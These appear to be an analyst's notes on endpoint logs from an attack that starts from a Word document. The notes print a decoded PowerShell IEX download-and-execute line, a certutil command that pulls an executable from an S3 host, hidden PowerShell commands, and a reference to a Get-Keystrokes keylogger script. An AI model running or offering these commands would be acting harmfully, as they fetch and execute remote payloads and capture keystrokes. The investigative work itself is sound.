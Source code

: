 [process.parent.executable]
C:\Program Files\Microsoft Office 15\root\office15\winword.exe

[process.pe.original_file_name]
PowerShell.EXE

\\\\ the garbled text seen above is base64, converting back and removing full stops gives us 

IEX(New-Object NetWebClient)downloadString('https://tueoeoslxos.3.us-west-2amazonaws.com/winupdater.ps1')

\\\\ this command invokes an expression that uses the NetWebCLient class  to download and execute a script at a given url [https://tueoeoslxos.3.us-west-2amazonaws.com] [winupdater.ps1]



\\\\ multiple windows services designed to prevent piracy / malicious behavior are stopped [sppsvc.exe] [SIHClient.exe] 

> Jun 15, 2022 @ 15:43:39.102	SIHClient.exe	DESKTOP-J22LNE4	
C:\Windows\System32\sihclient.exe  /cv R31wYSHunEypP//kLvFmiA.0.2	
C:\Windows\System32\SIHClient.exe	
process	end	
9208	
sihclient.exe

> Jun 15, 2022 @ 15:43:44.253	sppsvc.exe	DESKTOP-J22LNE4	
(empty)	C:\Windows\System32\sppsvc.exe	
process	end	
6020	
sppsvc.exe



\\\\ temp directory is created

> Jun 15, 2022 @ 15:43:56.925	powershell.exe	DESKTOP-J22LNE4	
"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -WindowStyle hidden "mkdir 'C:\temp'"	C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe	
process	end	8,108	
PowerShell.EXE [odd_original_filename]



\\\\ certutil is used to download [MSService.exe] from [https://ibarblkacoiwlkese.s3.amazonaws.com/certificate-key.exe]

> Jun 15, 2022 @ 15:44:02.472	certutil.exe	DESKTOP-J22LNE4	
"C:\Windows\system32\certutil.exe" -urlcache -split -f https://ibarblkacoiwlkese.s3.amazonaws.com/certificate-key.exe C:\ProgramData\MSService.exe	
C:\Windows\SysWOW64\certutil.exe	
process	start	
6244	
CertUtil.exe [odd_original_filename]




\\\\ another powershell command ran 2 processes, both in hidden windows. the first process executes the second one with [bypass_execution_policy] and [no_exit] option. The second process downloads and runs a script from a URL. The script name is [Get-Keystrokes.ps1], which is a script for capturing keystrokes.
